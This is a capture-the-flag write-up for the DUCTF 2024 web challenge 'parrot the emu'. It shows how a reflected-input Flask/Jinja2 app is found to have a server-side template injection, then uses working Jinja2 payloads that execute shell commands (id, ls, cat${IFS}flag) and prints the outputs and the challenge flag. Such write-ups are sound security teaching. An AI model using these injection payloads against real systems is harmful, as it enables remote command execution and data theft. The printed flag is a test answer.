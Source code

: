 # parrot the emu 

## Description
```
It is so nice to hear Parrot the Emu talk back

Author: richighimi

https://web-parrot-the-emu-4c2d0c693847.2024.ductf.dev 
```

## Provided Files
```
- parrot-the-emu.zip
```

## Writeup

Starting off we have a web application in which you can enter anything which will be returned to you (parrot talking back). <br/>
Knowing that our input gets reflected back to us we can test out the different vulnerabilites which work on input reflection. <br/>
Testing with `{{7*7}}` returns `49` indicating an `SSTI` vulnerability. <br/>

`Response-Headers`: <br/>
```
server: Werkzeug/2.0.3 Python/3.9.19
```

The `Python` server-header may indicate the usage of `Jinja2` template engine. <br/>
Using [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python) we can find useful payloads which when tested returns important information. <br/>
```py
# Payload
{{ cycler.__init__.__globals__.os.popen('id').read() }}
# Response
uid=0(root) gid=0(root) groups=0(root) 

# Payload
{{ cycler.__init__.__globals__.os.popen('ls').read() }}
# Response
app.py flag requirements.txt static templates 

# Payload -> ${IFS} == ' '
{{ cycler.__init__.__globals__.os.popen('cat${IFS}flag').read() }}
# Response
DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}
```